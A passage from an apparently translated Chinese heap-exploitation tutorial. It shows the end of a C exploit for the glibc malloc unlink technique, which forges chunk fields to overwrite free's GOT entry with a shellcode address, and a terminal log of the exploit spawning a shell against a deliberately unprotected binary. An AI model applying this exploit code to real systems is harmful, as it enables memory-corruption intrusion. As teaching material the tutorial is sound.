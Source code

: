 ``` c
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* the bk field of the first chunk */
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* the fd_nextsize field of the first chunk */
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* the bk_nextsize field of the first chunk */
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* Copy the shellcode */
        memcpy( p, shellcode, strlen(shellcode) );
        p += strlen( shellcode );
        /* Padding- 16 bytes for prev_size,size,fd and bk of second chunk. 16 bytes for fd,bk,fd_nextsize,bk_nextsize 
        of first chunk */
        memset( p, 'B', (680 - 4*4) - (4*4 + strlen(shellcode)) );
        p += ( 680 - 4*4 ) - ( 4*4 + strlen(shellcode) );
        /* the prev_size field of the second chunk. Just make sure its an even number ie) its prev_inuse bit is unset */
        *( (size_t *)p ) = (size_t)( DUMMY & ~PREV_INUSE );
        p += 4;
        /* the size field of the second chunk. By setting size to -4, we trick glibc malloc to unlink second chunk.*/
        *( (size_t *)p ) = (size_t)( -4 );
        p += 4;
        /* the fd field of the second chunk. It should point to free - 12. -12 is required since unlink function
        would do + 12 (FD->bk). This helps to overwrite the GOT entry of free with the address we have overwritten in 
        second chunk's bk field (see below) */
        *( (void **)p ) = (void *)( FUNCTION_POINTER - 12 );
        p += 4;
        /* the bk field of the second chunk. It should point to shell code address.*/
        *( (void **)p ) = (void *)( CODE_ADDRESS );
        p += 4;
        /* the terminating NUL character */
        *p = '';
        /* the execution of the vulnerable program */
        execve( argv[0], argv, NULL );
        return( -1 );
}
```
执行上面的漏洞利用程序，可以触发一个新的shell!  

```
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/unlink$ gcc -g -z norelro -z execstack -o vuln vuln.c -Wl,--rpath=/home/sploitfun/glibc/glibc-inst2.20/lib -Wl,--dynamic-linker=/home/sploitfun/glibc/glibc-inst2.20/lib/ld-linux.so.2
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/unlink$ gcc -g -o exp exp.c
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/unlink$ ./exp 
$ ls
cmd  exp  exp.c  vuln  vuln.c
$ exit
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/unlink$
```
保护: 现如今，’glibc malloc’经过许多年的发展已经被强化了(hardened)，unlink已经技术无法成功执行。为了防御unlink技术带来的堆溢出，’glibc malloc’加入了下面的检查：  
